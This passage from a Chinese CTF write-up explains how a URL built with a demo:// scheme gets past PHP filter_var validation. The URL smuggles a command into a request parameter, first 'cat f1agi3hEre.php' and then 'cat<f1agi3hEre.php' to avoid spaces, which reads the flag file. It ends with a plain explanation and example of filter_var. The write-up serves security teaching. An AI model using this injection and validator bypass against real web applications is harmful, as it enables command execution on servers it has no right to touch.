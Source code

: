 当我们直接用 **cat f1agi3hEre.php** 命令的时候，过不了 **filter_var** 函数检测，因为包含空格，具体payload如下：

```bash
http://localhost/index.php?url=demo://%22;cat%20f1agi3hEre.php;%23;sec-redclub.com:80/
```

所以我们可以换成 **cat<f1agi3hEre.php** 命令，即可成功获取flag：

<img src=".\图片\8.png" alt="8" style="zoom:80%;" />

关于 **filter_var** 函数绕过更多的细节，大家可以参考这篇文章：[SSRF技巧之如何绕过filter_var( )](https://www.anquanke.com/post/id/101058) ，关于命令执行绕过技巧，大家可以参考这篇文章：[浅谈CTF中命令执行与绕过的小技巧](http://www.freebuf.com/articles/web/137923.html) 。

### 拓展filter_var

#### 语法

[PHP filter_var() 函数 (w3school.com.cn)](https://www.w3school.com.cn/php/func_filter_var.asp)

filter_var() 函数通过指定的过滤器过滤变量。

如果成功，则返回已过滤的数据，如果失败，则返回 false。

语法：

```
filter_var(variable, filter, options)
```

实例：

```php
<?php
if(!filter_var("someone@example....com", FILTER_VALIDATE_EMAIL))
 {
 echo("E-mail is not valid");
 }
else
 {
 echo("E-mail is valid");
 }
?>
```
